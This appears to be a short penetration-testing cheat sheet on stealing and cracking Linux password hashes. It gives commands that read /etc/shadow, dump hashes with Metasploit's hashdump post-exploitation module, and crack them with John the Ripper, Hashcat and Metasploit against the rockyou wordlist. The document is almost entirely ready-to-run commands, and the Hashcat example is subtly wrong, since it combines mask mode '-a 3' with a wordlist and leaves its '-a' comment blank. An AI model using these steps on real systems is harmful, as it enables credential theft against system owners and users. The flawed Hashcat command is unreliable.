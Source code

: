 # Linux - Dump/Crack Hashes

## Dumping

```bash
cat /etc/shadow
```

{% code title="Metasploit" %}
```bash
use post/linux/gather/hashdump
set SESSION 1
exploit
```
{% endcode %}

#### Linux passwords hashes

| Value | Hashing Algorithm |
| ----- | ----------------- |
| $1    | MD5               |
| $2    | Blowfish          |
| $5    | SHA-256           |
| $6    | SHA-512           |

## Cracking

{% code title="John The Ripper" %}
```bash
john --format=sha512crypt linux.hashes.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{% endcode %}

{% code title="Hashcat" %}
```bash
## check the code of specific format
hashcat --help 

hashcat -a 3 -m 1800 linux.hashes.txt /usr/share/wordlists/rockyou.txt
# -m: hash format 
# -a: 
```
{% endcode %}

{% code title="Metasploit" %}
```bash
use auxiliary/analyze/crack_linux
set SHA512 true
run
```
{% endcode %}
